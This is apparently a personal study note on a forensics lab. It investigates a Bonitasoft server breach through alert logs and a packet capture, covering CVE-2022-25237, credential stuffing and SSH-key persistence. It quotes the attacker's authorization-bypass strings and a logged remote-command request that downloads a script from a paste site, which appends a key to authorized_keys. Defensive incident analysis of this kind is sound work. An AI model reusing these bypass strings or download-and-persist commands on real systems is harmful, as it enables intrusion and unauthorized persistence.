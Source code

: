 ```yaml
---
{"dg-publish":true,"permalink":"/meerkat/"}
---
```


![Pasted image 20250212133817.png](/img/user/Pasted%20Images/Pasted%20image%2020250212133817.png)![Pasted image 20250212150133.png](/img/user/Pasted%20Images/Pasted%20image%2020250212150133.png)
write down my progress: 1. Analysing artifacts -- we have pcap (can be analysed with Wireshark). json logs, I think the most convenient way is to convert them into .csv using this script and open in TimeLine explore. Alternatively, use jq to read it.

 # Load JSON data from the specified file path $jsonData = Get-Content -Path "C:\Users\glebas\Desktop\meerkat-alerts.json" | ConvertFrom-Json # Convert JSON data to CSV and export it $jsonData | Export-Csv -Path "C:\Users\glebas\Desktop\meerkat-alerts.csv" -NoTypeInformation

1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running? 

While going through alert logs, I identified the following alert: @{severity=1; signature=ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237); category=Attempted Administrator Privilege Gain; action=allowed; signature_id=2036818; gid=1; rev=1; metadata=} Hence the action status is allowed, we can confirm that intrusion took place on the system at 2023-01-19T15:31:31.042Z

2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?:

There a lot of HTTP Post requests containing credentials of work accounts. This is a sign of a credential stuffing.

1. Does the vulnerability exploited have a CVE assigned - and if so, which one?: 

Answer to question 3 can be found initially during alerts analysis.

2. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?: 

While reading about the exploit https://rhinosecuritylabs.com/application-security/cve-2022-25237-bonitasoft-authorization-bypass/ I found out that Bonita appends either “/i18ntranslation/../” or “;i18ntranslation” to the API URL to allow authorization to be bypassed. I correlated this info with pcap in Wireshark and found the answer. 

3. How many combinations of usernames and passwords were used in the credential stuffing attack?: 

Not difficult question yet I stuck here and had to address the official write-up. My Wireshark display filter http.request.full_uri == "http://forela.co.uk:8080/bonita/loginservice" && !http contains "install" was displaying 59 entries, but there were 3 repetitions in the very end which shouldn't have been counted. After additional research I concluded that the easiest way to find the solution to this question with a filters would be through Tshark command 

tshark -Y '(http.request.uri == "/bonita/loginservice") && 
(!http contains "install")' -r meerkat.pcap -T
json | jq '.[]._source.layers.http."http.file_data"' | sort | uniq 
| wc -l

4. Which username and password combination was successful?

Looking through network logs we can see someone running a command whoami, it prompted me to follow HTTP stream and I was able to see there authentication attempt with positive response, namely status code 204.

The HTTP 204 No Content status code indicates that the server has successfully processed the request, but there is no content to send in the response body. This status code is particularly useful for operations that do not require the client to navigate away from the current page or display any new information.

5. If any, which text sharing site did the attacker utilise?

Continuing investigating Wireshark logs we are able to see a GET request with remote command execution which has a website URL that fits out description. 
GET /bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8 HTTP/1.

6. Please provide the filename of the public key used by the attacker to gain persistence on our host.

If we carefully follow the link above (using Browserling, for example) we can see a bash script that appends data from https://pastes.io/raw/hffgra4unv to /home/ubuntu/.ssh/authorized_keys. The data it retrieves is SSH key, and it is also seen that TA executes ssh restart after getting the key. Hence, we can conclude this is used to achieve persistence.

7. Can you confirm the MITRE technique ID of this type of persistence mechanism?

Account Manipulation: SSH Authorized Keys sub-technique is on MITRE website, which confirms the previous assumption.
1. ![Pasted image 20250216102441.png](/img/user/Pasted%20Images/Pasted%20image%2020250216102441.png)
![Pasted image 20250216104240.png](/img/user/Pasted%20Images/Pasted%20image%2020250216104240.png)
 